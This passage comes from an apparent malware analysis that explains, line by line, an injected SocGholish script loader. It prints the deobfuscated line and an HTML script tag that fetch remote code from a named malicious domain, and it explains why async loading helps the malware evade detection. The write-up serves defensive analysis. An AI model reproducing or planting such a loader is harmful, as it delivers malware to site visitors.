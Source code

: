 **Why Async?**

| Benefit | Explanation |
|---------|-------------|
| **Performance** | Doesn't block page rendering |
| **Stealth** | User doesn't see page slowdown |
| **Timing** | Can execute at any moment after loading |
| **Evasion** | Harder to detect with performance monitoring |

**Loading Behavior:**

**Normal (Non-Async):**
```
Page Load → Script 1 (blocks) → Script 2 (blocks) → Render
```

**Async:**
```
Page Load → Script 1, Script 2, Malware (all parallel) → Render
              ↓         ↓            ↓
           Execute   Execute    Execute (whenever ready)
```

---

#### Line 7: Set Script Source URL

```javascript
w.src=u;
```

**Deobfuscated:**
```javascript
newScript.src = 'https://content-website-analytics.com/script.js';
```

**What It Does:**
Sets the source URL for the script element to the malicious domain

**HTML Equivalent:**
```html
<script src="https://content-website-analytics.com/script.js" async></script>
```

**⚠️ CRITICAL: The Malicious Domain**

**Domain:** `content-website-analytics.com`  
**Registered:** Unknown (investigation needed)  
**Purpose:** Hosts SocGholish payload  
**Status:** Active malware distribution site  

**Social Engineering Trick:**
- Name looks like "Google Analytics" or legitimate tracking
- Uses HTTPS (appears secure)
- Subdomain "content-website" suggests CDN
- Victims might think it's a normal analytics script
